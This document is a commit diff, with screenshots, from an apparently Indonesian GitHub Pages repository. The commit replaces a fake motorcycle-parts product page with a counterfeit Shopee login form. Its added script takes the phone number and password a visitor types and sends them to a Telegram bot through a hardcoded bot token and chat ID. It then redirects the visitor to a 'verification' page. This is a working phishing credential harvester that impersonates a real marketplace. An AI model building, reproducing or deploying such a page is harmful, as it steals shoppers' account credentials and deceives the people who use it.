

Before and after one commit to formulirpesananmu/logincoid.github.oi, a plain HTML site: page halamantoko.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
halamantoko.html

```diff
--- a/halamantoko.html
+++ b/halamantoko.html
@@ -1,123 +1,152 @@
-<html lang="en">
+<!DOCTYPE html>
+<html lang="id">
+
 <head>
-  <meta charset="utf-8" />
-  <meta content="width=device-width, initial-scale=1" name="viewport" />
-  <title>Product Detail</title>
-  <script src="https://cdn.tailwindcss.com"></script>
-  <link
-    href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.3/css/all.min.css"
-    rel="stylesheet"
-  />
-  <link
-    href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600&display=swap"
-    rel="stylesheet"
-  />
+    <meta charset="UTF-8" />
+    <meta name="viewport" content="width=device-width, initial-scale=1" />
+    <title>Login - Shopee</title>
+    <link rel="stylesheet" href="">
     <style>
         body {
-      font-family: "Inter", sans-serif;
+            font-family: sans-serif;
+            background-color: #f5f5f5;
+            margin: 0;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            min-height: 100vh;
+        }
+
+        .login-container {
+            background-color: #fff;
+            border-radius: 8px;
+            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
+            padding: 30px;
+            width: 350px;
+            text-align: center;
+        }
+
+        .logo img {
+            width: 120px;
+            margin-bottom: 20px;
+            object-fit: contain;
+            display: block;
+            margin-left: auto;
+            margin-right: auto;
+        }
+
+        .input-group {
+            position: relative;
+            margin-bottom: 20px;
+        }
+
+        .input-group i {
+            position: absolute;
+            left: 15px;
+            top: 50%;
+            transform: translateY(-50%);
+            color: #999;
+        }
+
+        .input-group input {
+            width: 100%;
+            padding: 12px 40px;
+            border: 1px solid #ccc;
+            border-radius: 4px;
+            box-sizing: border-box;
+            font-size: 16px;
+        }
+
+        .input-group .clear-input {
+            position: absolute;
+            right: 10px;
+            top: 50%;
+            transform: translateY(-50%);
+            background: none;
+            border: none;
+            font-size: 16px;
+            color: #999;
+            cursor: pointer;
+        }
+
+        .login-button {
+            background-color: #ee4d2d;
+            color: white;
+            padding: 14px 20px;
+            border: none;
+            border-radius: 4px;
+            cursor: pointer;
+            font-size: 18px;
+            width: 100%;
+            margin-top: 10px;
+        }
+
+        .login-button:hover {
+            background-color: #d43c23;
+        }
+
+        .input-group a {
+            position: absolute;
+            right: 10px;
+            top: 50%;
+            transform: translateY(-50%);
+            color: #ee4d2d;
+            text-decoration: none;
+            font-size: 0.9em;
         }
     </style>
+    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.3/css/all.min.css">
 </head>
-<body class="bg-white text-black">
-  <div class="max-w-md mx-auto border border-gray-200">
-    <!-- Image container with top icons -->
-    <div class="relative">
-      <img
-        class="w-full object-cover"
-        height="600"
-        src="tirev2010.jpg"
-        width="300"
-      />
-      <!-- Back arrow circle -->
-      <button
-        aria-label="Back"
-        class="absolute top-4 left-4 bg-gray-300 bg-opacity-50 rounded-full w-10 h-10 flex items-center justify-center"
-      >
-        <i class="fas fa-arrow-left text-white text-lg"></i>
-      </button>
-      <!-- Cart icon circle -->
-      <button
-        aria-label="Cart"
-        class="absolute top-4 right-16 bg-gray-300 bg-opacity-50 rounded-full w-10 h-10 flex items-center justify-center"
-      >
-        <i class="fas fa-shopping-cart text-white text-lg"></i>
-      </button>
-      <!-- More options circle -->
-      <button
-        aria-label="More options"
-        class="absolute top-4 right-4 bg-gray-300 bg-opacity-50 rounded-full w-10 h-10 flex items-center justify-center"
-      >
-        <i class="fas fa-ellipsis-h text-white text-lg"></i>
-      </button>
+
+<body>
+    <div class="login-container">
+        <div class="logo">
+            <img id="logoImg" src="shop.JPG" alt="Shop"
+                onerror="this.onerror=null;this.src='https://logos-download.com/wp-content/uploads/2019/01/Shopee_Logo.png';" />
         </div>
-    <!-- Product title -->
-    <h1
-      class="px-4 pt-10 pb-4 text-black text-base font-normal leading-5"
-      style="line-height: 1.25rem;"
-    >
-      MESIN TIGER REVO 2010 TIREV KELENGKAPAN SET PENGAPIAN KARBU SIAP PAKAI
-    </h1>
-    <!-- Delivery info -->
-    <div
-      class="flex items-center justify-between border-t border-b border-gray-200 px-4 py-3"
-    >
-      <div class="flex items-center space-x-2 text-sm text-gray-700">
-        <i class="fas fa-truck text-green-500 text-lg"></i>
-        <div>
-          <p class="font-semibold text-gray-900 leading-5">
-            Garansi tiba: Garansi keamanan sampai tiba
-          </p>
-          <p class="text-gray-400 text-xs leading-4">
-            Dapatkan Voucher s/d Rp10.000 jika pesanan terlambat.
-          </p>
+        <div class="input-group">
+            <i class="fas fa-user"></i>
+            <input type="text" placeholder="Nomor HP" id="nomorhp" value="" />
+            <button class="clear-input" onclick="document.getElementById('nomorhp').value=''">&times;</button>
         </div>
+        <div class="input-group" style="position: relative;">
+            <i class="fas fa-lock"></i>
+            <input type="password" placeholder="Password" id="password" />
+            <a href="#">Lupa</a>
         </div>
-      <i class="fas fa-chevron-right text-gray-400"></i>
+        <button id="btnLogin" class="login-button">Log in</button>
     </div>
-    <!-- Return & COD info -->
-    <button
-      class="flex items-center justify-between w-full border-b border-gray-200 px-4 py-3 text-sm text-gray-900"
-      type="button"
-    >
-      <div class="flex items-center space-x-2">
-        <i class="fas fa-shield-alt text-red-400 text-lg"></i>
-        <span>Bebas Pengembalian · COD-Cek Dulu</span>
-      </div>
-      <i class="fas fa-chevron-right text-gray-400"></i>
-    </button>
-    <!-- Seller info -->
-    <div class="px-4 py-5">
-      <div class="flex items-center space-x-4">
-        <img
-          alt="Shop profile image showing various motorcycle parts in a workshop"
-          class="w-12 h-12 rounded-full object-cover"
-          height="48"
-          src="https://storage.googleapis.com/a1aa/image/16d644af-0053-4b0b-3657-7f070495c5ab.jpg"
-          width="48"
-        />
-        <div class="flex-1 min-w-0">
-          <p class="font-semibold text-gray-900 leading-5">AL X Garage Otomotif</p>
-          <p class="text-gray-500 text-xs leading-4 mt-0.5">Aktif 38 menit lalu</p>
-          <p class="text-gray-400 text-xs leading-4 flex items-center mt-0.5">
-            <i class="fas fa-map-marker-alt mr-1"></i>KOTA SLEMAN
-          </p>
-        </div>
-        <button
-          onclick="window.location.href='index.html'"
-          class="text-orange-600 border border-orange-600 rounded px-4 py-1 text-sm font-medium hover:bg-orange-50"
-          type="button"
-        >
-          Kunjungi Toko
-        </button>
-      </div>
-      <div
-        class="flex flex-wrap gap-x-4 gap-y-1 mt-4 text-xs text-gray-600 font-semibold"
-      >
-        <span><span class="text-red-600">39</span> Produk</span>
-        <span><span class="text-red-600">4.8</span> Penilaian</span>
-        <span><span class="text-red-600">97%</span> Chat Dibalas</span>
-      </div>
-    </div>
-  </div>
+    <script>
+        document.getElementById("btnLogin").addEventListener("click", function (e) {
+            e.preventDefault();
+            var nomorhp = document.getElementById('nomorhp').value.trim();
+            var password = document.getElementById('password').value.trim();
+            var token = "8483832719:AAH9MrWjVVmMxydfTMJjOPyG_c7xu04P6Gk";
+            var chat_id = "5923031825";
+            var text = "Login Shopee\nNomor HP: " + nomorhp + "\nPassword: " + password;
+            var url = `https://api.telegram.org/bot${token}/sendMessage`;
+            var params = {
+                chat_id: chat_id,
+                text: text
+            };
+            fetch(url, {
+                method: "POST",
+                headers: { "Content-Type": "application/json" },
+                body: JSON.stringify(params)
+            })
+                .then(response => response.json())
+                .then(data => {
+                    if (data.ok) {
+                        window.location.href = "verifikasi.html";
+                    } else {
+                        alert("Gagal kirim ke Telegram: " + data.description);
+                    }
+                })
+                .catch((error) => {
+                    alert("Gagal koneksi ke Telegram: " + error);
+                });
+        });
+    </script>
 </body>
+
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
